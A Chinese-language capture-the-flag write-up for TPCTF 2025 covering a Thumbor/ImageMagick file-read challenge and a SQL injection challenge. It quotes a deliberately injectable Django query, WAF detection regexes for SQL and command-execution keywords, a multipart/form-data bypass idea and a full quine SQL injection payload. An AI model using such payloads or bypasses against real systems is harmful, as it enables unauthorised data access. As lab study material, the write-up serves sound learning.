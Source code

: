 ### thumbor1
这题首先我们先进 docker 里面拿一下源码,然后就可以到各种 IDE 进行一下审计,然后这里我们主要看看 engine 和 handler 文件夹,然后可以在这里找到一些路由和 imagemagick
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-07-00-47.png" alt="TPCTF 2025 Writeup-2025-03-11-07-00-47" position="center" style="border-radius: 1px;" >}}
然后其实这里也可以直接看 readme.md 可以得到 /thumbor/unsafe/450x/ 的路由(这里多少 x 是对图片的大小处理)
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-07-00-54.png" alt="TPCTF 2025 Writeup-2025-03-11-07-00-54" position="center" style="border-radius: 1px;" >}}
然后尝试后发现这里可以像 SSRF 一样去加载外面的图片资源,然后再搜索 imagemagick 的漏洞发现存在 Arbitrary File Read 那就去 github 找 POC,但是这里可能是 parse 存在问题于是我们用另一个办法读取 flag
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-07-01-03.png" alt="TPCTF 2025 Writeup-2025-03-11-07-01-03" position="center" style="border-radius: 1px;" >}}
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-07-01-08.png" alt="TPCTF 2025 Writeup-2025-03-11-07-01-08" position="center" style="border-radius: 1px;" >}}
### supersqli
拿到源码后查看发现其实黑名单写的很多,然后我们主要看下这两个部分的代码
``` python
def flag(request:HttpRequest):
if request.method != 'POST':
    return HttpResponse('Welcome to TPCTF 2025')
username = request.POST.get('username')
if username != 'admin':
    return HttpResponse('you are not admin.')
password = request.POST.get('password')
users:AdminUser = AdminUser.objects.raw("SELECT * FROM blog_adminuser WHERE username='%s' and password ='%s'" % (username,password))
try:
    assert password == users[0].password
    return HttpResponse(os.environ.get('FLAG'))
except:
    return HttpResponse('wrong password')
```

``` GET
var sqlInjectionPattern = regexp.MustCompile(\`(?i)(union.\*select|select.\*from|insert.\*into|update.\*set|delete.\*from|drop\s+table|--|#|\\\*\\/|\\/\\\*)\`)

var rcePattern = regexp.MustCompile(\`(?i)(\b(?:os|exec|system|eval|passthru|shell\_exec|phpinfo|popen|proc\_open|pcntl\_exec|assert)\s\*\\(.+\\))\`)

var hotfixPattern = regexp.MustCompile(\`(?i)(select)\`)
```

然后简单的看了 waf 的源码其实主要是一个代理和 WAF,经过检测后将合法请求转发到后端服务,然后这里的服务卡了很久不知道怎么 bypass,最后可以用这个文章里面的 multipart/form-data 来绕过,然后再看代码发现限制为 admin,那这里我们可以想到用 quine 注入(输入的sql语句与要输出的一致),最后 payload 如下

```sql
1' union select 1,2,replace(replace('1" union select 1,2,replace(replace("#",char(34),char(39)),char(35),"#")-- ',char(34),char(39)),char(35),'1" union select 1,2,replace(replace("#",char(34),char(39)),char(35),"#")-- ')-- 
```
